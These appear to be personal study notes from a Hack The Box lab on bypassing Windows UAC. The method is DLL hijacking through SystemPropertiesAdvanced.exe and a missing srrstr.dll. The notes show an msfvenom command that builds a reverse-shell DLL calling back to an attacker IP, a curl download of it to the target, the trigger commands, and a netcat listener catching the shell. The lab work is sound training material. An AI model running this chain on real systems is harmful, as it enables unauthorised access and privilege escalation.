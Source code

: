 UAC is a feature that enables consent for elevated privileges.
https://learn.microsoft.com/en-us/windows/security/identity-protection/user-account-control/how-user-account-control-works

List of registry keys:
https://learn.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-admin-approval-mode-for-the-built-in-administrator-account

![[Pasted image 20230107092515.png]]

```
Confirm UAC is Enabled:
REG QUERY HKEY_LOCAL_MACHINE\Sofware\Microsoft\Windows\CurrentVersion\Policies\System\
		/v EnableLUA

Checking UAC Level:
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\
		/v 

Checking Windows Version:
	[environment]::OSVersion.Version
```

![[Pasted image 20230107092941.png]]

https://github.com/hfiref0x/UACME project maintains a list of UAC bypasses.

###### When attempting to locate a DLL, Windows uses this following order:
```
1. The directory from which the applicaiton loaded
2. The System32 Directory C:\Windows\System32
3. 16-bit System Directory C:\Windows\System
4. The Windows Directory
5. Any directories listed in PATH

cmd /c echo %PATH%
```

## Scenario

32-bit `SystemPropertiesAdvanced.exe` attempts to load the non-existent DLL srrstr.dll, which is used
by System Restore functionality

![[Pasted image 20230107095051.png]]

WindowsApps is wihtin the user's path variable. We can potentially bypass UAC by using DLL
hijacking, placing a malicous `srrstr.dll` in the WindowsApps folder

## Generating Malicious srrstr.dll
```bash
msfvenom -p windows/shell_reverse_tcp LHSOT=10.10.14.3 LPORT=8443 -f dll > srrstr.dll

sudo python3 -m http.server 8080
curl http://10.10.14.3:8080/srrstr.dll -O
"C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"
```

#### Test Connection
```
rundll32 shell32.dll,Control_RunDLL \
		C:\Users\sarah]AppData\Local\Microsoft\WIndowsApps\srrstr.dll

C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```


```shell-session
bluechat@htb[/htb]$ nc -lnvp 8443

listening on [any] 8443 ...

connect to [10.10.14.3] from (UNKNOWN) [10.129.43.16] 49789
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.


C:\Users\sarah> whoami /priv

whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled

```

#### Executing SystemPropertiesAdvanced.exe on Target Host

![[Pasted image 20230107111029.png]]

